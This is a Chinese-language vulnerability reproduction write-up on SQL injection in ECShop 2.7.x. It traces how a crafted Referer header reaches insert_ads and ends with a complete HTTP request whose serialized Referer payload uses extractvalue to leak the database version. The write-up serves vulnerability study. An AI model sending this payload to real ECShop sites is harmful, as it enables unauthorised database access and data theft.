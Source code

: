 ECShop \<= 2.7.x sql注入漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

ECShop（2.x、3.0.x、3.6.x）

三、复现过程
------------

### 漏洞分析

先看user.php

![](resource/ECShop=2.7.xsql注入漏洞/media/rId25.png)

\$back\_act变量来源于HTTP\_REFERER，我们可控。

assign函数用于在模版变量里赋值

![](resource/ECShop=2.7.xsql注入漏洞/media/rId26.png)

再看display函数

![](resource/ECShop=2.7.xsql注入漏洞/media/rId27.png)

读取user\_passport.dwt模版文件内容，显示解析变量后的html内容，用\_echash做分割，得到\$k然后交给isnert\_mod处理，由于\_echash是默认的，不是随机生成的，所以\$val内容可随意控制。

再看insert\_mod函数

![](resource/ECShop=2.7.xsql注入漏洞/media/rId28.png)

非常关键的一个地方，这里进行了动态调用

\$val传入进来用\|分割，参数传入进来时需要被序列化

再看include/lib\_insert.php中的insert\_ads函数

![](resource/ECShop=2.7.xsql注入漏洞/media/rId29.png)

可以看到这里直接就能注入了

### payload

    GET /user.php?act=login HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0

![](resource/ECShop=2.7.xsql注入漏洞/media/rId31.png)

参考链接
--------

> https://cloud.tencent.com/developer/article/1333449
